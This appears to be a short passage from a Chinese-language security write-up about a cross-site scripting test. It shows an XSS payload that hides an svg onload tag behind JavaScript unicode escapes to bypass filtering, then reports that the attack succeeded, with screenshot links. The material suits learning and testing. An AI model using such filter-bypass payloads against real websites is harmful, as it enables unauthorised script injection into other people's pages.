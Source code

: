 ![](../../.gitbook/assets/image%20%2886%29.png)

尝试使用JS的unicode编码 

```text
\\u003csvg onload=alert(document.domain)\\u003e
```

攻击成功：

![](../../.gitbook/assets/image%20%2856%29.png)
